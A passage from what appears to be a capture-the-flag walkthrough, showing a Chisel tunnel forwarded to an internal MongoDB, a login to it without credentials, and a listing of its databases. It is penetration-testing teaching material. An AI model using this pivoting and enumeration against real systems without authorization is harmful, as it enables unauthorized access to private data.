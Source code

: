 ```

2022/08/22 20:21:51 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening

```

#### Enumerate DB

I’ll connect with `mongo` (`apt install mongodb-clients`):

```

oxdf@hacky$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27017
Implicit session: session { "id" : UUID("08a04e87-1918-430a-b27e-8e4f9462a6bc") }
MongoDB server version: 4.0.26
WARNING: shell and server versions do not match
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
Server has startup warnings: 
2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] 
2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] 
2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] 
rs0:PRIMARY>

```

By default it will use localhost port 27017, which is my Chisel listening port, so it works. It doesn’t seem to need creds.

There are four DBs:

```

rs0:PRIMARY> show databases
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB

```
